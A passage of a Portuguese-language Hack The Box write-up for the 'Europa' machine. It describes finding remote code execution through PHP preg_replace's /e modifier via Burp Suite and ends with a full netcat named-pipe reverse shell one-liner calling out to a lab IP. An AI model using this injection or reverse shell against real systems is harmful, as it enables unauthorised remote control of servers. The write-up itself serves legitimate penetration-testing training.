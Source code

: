 Mandamos pro `Repeater`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-europa/E_vpn3.png)

Como está tudo em URLEncode, retiramos (Seleciona tudo e Control + Shift + U) - Só para ficar mais fácil de trabalhar

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-europa/E_vpn4.png)

Enviamos a requisição, pra ver como é a resposta

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-europa/E_vpn5.png)

Verificamos que alguns dados se repetem, na requisição e na response, interessante, já começamos a ver maneiras possíveis de explorar isso

Hum, se mudarmos o parâmetro e enviarmos, ele replica do outro lado. O que parece estar acontecendo é uma regex php ali, dando match com algum determinado filtro ele da a response ali

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-europa/E_vpn6.png)

## Explrorando PHP Regex

Bom, tendo essa suspeita, começamos a pesquisar sobre como podemos explorar isso

Show, vamos perguntar pra quem sabe... Google

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-europa/E_google.png)

> https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace

Lendo a parada toda, chegamos a conclusão de adicionar um `/e` ele vai executar o código, simples não?

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-europa/E_google1.png)

Vamos lá então

Testamos e corremos pro abraço! Temos RCE

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-europa/E_vpn7.png)

Poderiamos fazer diferente, direto pelo BurpSuite na aba Params

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-europa/E_params.png)

### Reverse Shell

Agora é só fazer um reverse shell

> http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.119 443 >/tmp/f
```
